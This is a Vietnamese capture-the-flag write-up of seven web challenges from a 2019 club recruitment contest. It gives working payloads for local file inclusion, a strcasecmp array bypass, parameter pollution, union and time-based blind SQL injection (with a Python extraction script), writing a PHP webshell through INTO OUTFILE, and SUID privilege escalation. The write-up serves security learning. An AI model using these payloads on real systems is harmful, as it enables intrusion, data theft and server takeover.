

# Efiens CTF 2019 Round 2 - Web Challenges Write Up

Ngày 24/12/2019 câu lạc bộ An toàn thông tin - Efiens tổ chức thi tuyển thành viên round 2. Đây là phần write-up của mình cho toàn bộ 7 bài trong mảng Web (trong đó có 1 bài `DidongWorld` giải sau khi hết giờ)

## Efiens Web - `@zl4`

Trong tab `Flag` khi truy cập vào đường dẫn đến file flag sẽ bị lỗi `Forbidden`


Có thể thấy khi duyệt web thì url có dạng:
`http://web1.efiens.com/index.php?p=flag.php`
Vậy có thể lỗi này sử dụng `include` trong php. - Lỗi `Local File Incusion`

Truy cập `http://web1.efiens.com/index.php?p=flag/flag.php` --> GET FLAG!


## strcasecmp - `@zl4`

Bài cho ta nhập vào Flag, sau đó kiểm tra Flag có đúng bằng Flag không, nếu đúng sẽ in ra Flag ... Nghe vô lý nhưng nó lại hợp lý =)))


Lỗi bài này ở ngay tên bài rồi! Hàm strcasecmp

` strcasecmp ( string $str1 , string $str2 ) : Returns < 0 if str1 is less than str2; > 0 if str1 is greater than str2, and 0 if they are equal. `

Nhưng nếu truyền vào 1 array thì `strcasecmp` vẫn trả về 0!!!!
Payload:

`curl http://web2.efiens.com/index.php -d 'flag[]='`
## Trust Bank - `@drx`

Trong chế độ `View Page Source`:


Thử với `http://web3.efiens.com/index.php?debug=1` sẽ nhìn thấy suorce code


###### Phân tích:

- Việc chứng thực tài khoản được xác thực bằng biến `$auth` <br>

- Sau đó chương trình gửi thêm một post request tới `$url_transfer` với data = `$qry_str`

Có thể thấy do `$qry_str` là chuỗi có thể kiểm soát thông qua việc truyền tham số `money`. Đây là dấu hiệu của lỗi `Parameter Pollution`
###### Exploit

Như vậy, chúng ta có thể gửi tiền từ tài khoản bất kì (không cần đúng nhập đúng mật khẩu) đến một người khác thông qua việc ghi đè tham số `auth` trong `money`


###### Payload: 
`fromAcc=bill_gate&password=password&toAcc=your_account&money=3566900000%26auth%3D1&submit=`


## SQL Quests - `@30k`

Ở challenge này được chia ra 3 bài với 3 nội dung cụ thể
- SQL Quests 1: SQL Injection
- SQL Quests 2: Upload shell thông qua SQLi
- SQL Quests 3: Privilege Escalation

###### SQL Quests 1 - SQL Injection

Website cho phép tra cứu thông tin người dùng.

- `1" or "1"="1" -- ` --> Trả về toàn bộ user --> SQL injection

- `1" order by 4 -- ` --> Không lỗi

- `1" order by 5 -- ` --> Lỗi --> Câu query chứa 4 cột dữ liệu

- `1" union select null,@@version,null,null -- -` --> Kiểm tra version

- `1" union SELECT null,null,null,table_name FROM information_schema.tables  where TABLE_SCHEMA=database() -- -` --> Liệt kê các bản nằm trong database --> `csa_officers`


- `1" union select null,null,null,column_name FROM information_schema.columns WHERE table_name = "csa_officers" -- -` --> Liệt kê các cột trong `csa_officers` --> cột `darkest_secret` "Bí mật đen thui"??


- `1" union select null,null,null,darkest_secret FROM csa_officers -- -` --> Trích xuất dữ liệu trong `darkest_secret` --> Get FLAG!!!


(Có xíu nhầm lẫn `EFIENS` chứ không phải `CSACTF`)
## SQL Quests 2 - Upload Shell

Tìm flag thứ 2 nào!


Vì từ ver 1 đã có thể thấy server bị lỗi SQL injection, nên thử upload shell thông qua lỗi này!

`1" union select null,null,null,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' -- `

--> Thành Công!!

###### Shell

- `http://server.com/shell.php?cmd=ls /`
- `http://server.com/shell.php?cmd=cat /sup3r_s3cr3t.txt`
--> Well done!! FLAGGGGG!


## SQL Quests 3 - Privilege Escalation
Từ shell của bài `SQL Quests 2` ta tiếp tục
- `whoami` --> tất nhiên rồi, không phải root :)
- Kiểm tra SUID file: `find . -perm /4000` --> SUID `time`
- `time whoami` --> `root`
- `cat /root/root_flag.txt` --> DONE!


## DidongWorld - `@drx`

Bài này có 2 task khó rõ: 
- Khai thác SQLi - Time based để đăng nhập với tư cách admin
- Upload Shell

Bài này mình giải không ra trong thời gian thi, lúc đấy chỉ làm đến bước lấy được tài khoản admin là hết giờ! Fail ...

Bắt đầu nào!

- Endpoint `robots.txt` --> `database.txt` --> Trong file database.txt là bản database khởi tạo của server
- HINT 1: ` I like cookies. I can eat cookies every day, do you believe?`

- ` TrackingId=acb006963c0afedb565bc72d6c4a0a75' union select sleep(10) -- -` --> Respone chậm > 10 --> SQL Time Based Injection

Khi đã phát hiện lỗi thì chỉ cần viết code exploit nữa thôi.
Dưới đây là phần code mình dùng binary search để exploit time based injection đọc password của admin

```Python
import requests
import base64
import math
chars ="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"$&'()+./:;<=>@\\^_`{|}~ *?[]!-##"
url = "http://web4.luibo.online/index.php"

requests.packages.urllib3.disable_warnings() 

flag = ""

stop = False
pos = 1
while stop != True:
    char = ord('0')
    start = 32 
    end = 126
    char= (end+start)//2
    while True:
        print("Start = {} ---- End = {} ---- char = {}".format(start,end,char))
        if (end==start):
            flag += chr(char)
            print("Loading data: {}".format(flag))
            pos += 1
            start = 32
            end = 126
            if (chr(char) == '}'):
                break
        else:
            payload = "a'  (ascii(SUBSTRING(password,{},1))>{} and admin=1) -- ".format(str(pos),char)
            cookies = {"TrackingId":"a' union select IF((ascii(SUBSTRING(password,{},1))>{}) ,sleep(3),'a') from users where username='DoubleVKay' -- -".format(str(pos),char)}
            r = requests.post(url, cookies = cookies,verify=False)
            if (r.elapsed.total_seconds() > 2): ## True
                start = char+1
            else: ## False
                end = char
            char= (end+start)//2

print("Found data: {}".format(flag))
```

Vì phần code trên mình lười xác thực điểm dừng, nên khi nào thấy data load được không có gì thay đổi là ok nha!

Nhìn vào `password` nhận được thì có vẻ đã bị đem đi hash rồi. Nhưng cũng cứ đem đi login thử với `username` = admin --> Fail :>

Linh cảm chắc để không làm khó người khác lắm đâu, nên đem lên crash md5 thử, yeh, password is too weak!

Có password rồi hí hửng đăng nhập, tưởng đâu ra Flag rồi là ngon lành cành đào, ai ngờ, còn một task phía sau đang chờ đón :> ...

###### Upload Shell

`Hint 2: find the way to upload webshell. Try your best!`


######## Blame
Ban đầu vào thì thấy có tính năng upload file. Thử thì thấy không có lỗi gì. Tiếp sau lại thấy lỗi `LFI` với phần đuôi file được ghép `.php`. Mình với anh `ngoctin` ngồi cả buổi trời để thử `path truncate` khai thác đoạn này. Kết quả sau tầm 2 3 giờ đồng hồ thì là ... No Hope :< !

Lúc này cũng vừa hết giờ, thôi gg! Cay quá phải điện thoại xin tác giả cho hint để làm tiếp. Xúc tích cái hint đó sẽ là:

`Quay về nơi bắt đầu`

######## Exploit

Có vẻ mình bỏ qua chỗ nào đó. Nhớ lúc đầu trước khi lấy được tài khoản admin. Mình đã thử Upload shell với SQLi rồi. Nhưng thất bại, có thể là do không có quyền ghi. Nhưng lúc này nghĩ lại thì giờ mình đã có một endpoint có thể ghi và truy cập được thông qua tính năng upload của tài khoản admin : `../Upload/`

Vậy công việc còn lại là upload shell vào thư mục đó nữa là xong

Payload: 
`' union select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/admin_a2dc213f531a2f5581de515ddaf81ca3/Upload/test2.php' -- -`


Khi có shell rồi sẽ thấy file `flag.txt`, tuy nhiên user hiện tại (`www-data`) không có quyền đọc file này, mà chỉ có `drx` hoặc `root` thôi.

Check thử các file SUID `find . -perm /4000 `:



Oke có file `readFlag` có set quyền SUID rồi, việc còn lại là đọc flag bằng file này!

`/var/opt/readFlag /flag.php`


BUM! FLAGGGGG! 

## Chốt

Cảm ơn ban tổ chức vì một cuộc thi hấp dẫn (mình cũng có trong ban tổ chức nữa hihi :D). Cảm ơn anh `@zl4`,`@30k`, `@drx` đã ra đề Web lần này. Cảm ơn anh `@ngoctin` đã giúp em trong quá trình làm, và đặc biệt là ăn hành chung với em câu `DidongWorld` =))). 

Và xin chúc mừng các bạn đã hoàn thành phần thi lần này! Chúc các bạn thành công trên con đường mình chọn nhé!! (Lỡ rớt cũng đường buồn, năm sau thi tiếp ngại ngùng gì :> )